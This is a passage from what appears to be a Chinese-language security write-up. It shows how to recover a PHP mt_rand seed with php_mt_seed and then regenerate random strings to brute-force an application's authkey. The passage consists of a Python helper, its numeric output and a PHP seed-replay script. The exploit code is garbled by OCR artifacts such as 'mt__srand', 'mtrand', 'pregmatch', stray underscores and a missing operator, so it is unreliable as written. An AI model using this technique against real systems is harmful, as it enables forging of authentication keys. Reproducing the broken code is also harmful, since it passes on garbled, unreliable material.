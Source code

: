 ```python
for i in sstr:
	result+=str(strlist.index(i))
	result+=" "
	result+=str(strlist.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
print result_

```


结果为：


```text
0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 2 2 0 61 7 7 0 61 5 5 0 61 21 21 0 61

```


使用php_mt_seed工具爆破随机数种子：


![2020%2005%2013%2018%2004%2059.png](../post_images/e7ee1d8d68fb02eb74961e312cabf176.png)


由于当前使用的php版本为5.6，符合结果的一共有293个。


### 爆破authkey


获得了随机数种子后，利用随机数种子使用`random`函数生成随机字符串用于后面的authkey爆破，生成随机字符串的脚本如下：


```php
<?php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt__srand((double)microtime()  1000000);
	for(_$i = 0; $i < $length; $i++) {
		$hash .= $_chars[mtrand(0, $max)];
	}
	return $hash;
}
$fp = fopen('result1.txt', 'r');
$fp2 = fopen('result2.txt', 'a');
while(!feof($fp)){_
	$b = fgets($_fp, 4096);
	if(pregmatch("/([=\s].[=\s])(\d+)[\s]/",_ $b, $matach)){
		$m = $_matach[2];
	}else{
		continue;
	}
	// vardump($matach);
	// vardump($m);
	mtsrand($m);
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2);_
```